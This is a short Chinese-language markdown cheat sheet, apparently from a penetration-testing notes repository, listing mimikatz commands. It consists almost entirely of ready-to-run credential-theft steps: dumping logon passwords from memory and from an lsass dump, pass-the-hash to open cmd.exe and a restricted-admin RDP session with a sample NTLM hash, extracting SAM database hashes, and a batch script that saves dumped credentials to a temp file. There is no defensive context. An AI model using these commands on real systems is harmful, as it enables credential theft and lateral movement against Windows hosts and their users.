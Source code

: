 # mimikatz

官方 Github：https://github.com/gentilkiwi/mimikatz

## 获取登录凭证信息

```
mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords" exit
```

```
privilege::debug
sekurlsa::logonpasswords
```

## lsass.exe 导出凭据

```
mimikatz.exe log "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

## mimikatz PTH 传递 cmd

```
mimikatz "privilege::debug" "sekurlsa::pth /user:Administrator /domain:WIN-9UUCAGH32BT /ntlm:f33dfac0370b09935d0037d8333caf25 /run:cmd.exe" "exit"
```

## mimikatz PTH 传递 mstsc

```
mimikatz "privilege::debug"  "sekurlsa::pth /user:Administrator /domain:WIN-9UUCAGH32BT /ntlm:f33dfac0370b09935d0037d8333caf25 /run:mstsc.exe /restrictedadmin" "exit"
```

```
privilege::debug
sekurlsa::pth /user:Administrator /domain:WIN-9UUCAGH32BT /ntlm:f33dfac0370b09935d0037d8333caf25 "/run:mstsc.exe /restrictedadmin"
```

## SAM 数据库导出凭据

```
mimikatz "log" "lsadump::sam /sam:sam.hive /system:system.hive"  "exit"
```


## bat 脚本获取凭据

```
@echo off
cd /d D:\tools\
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > C:\windows\temp\log.txt
```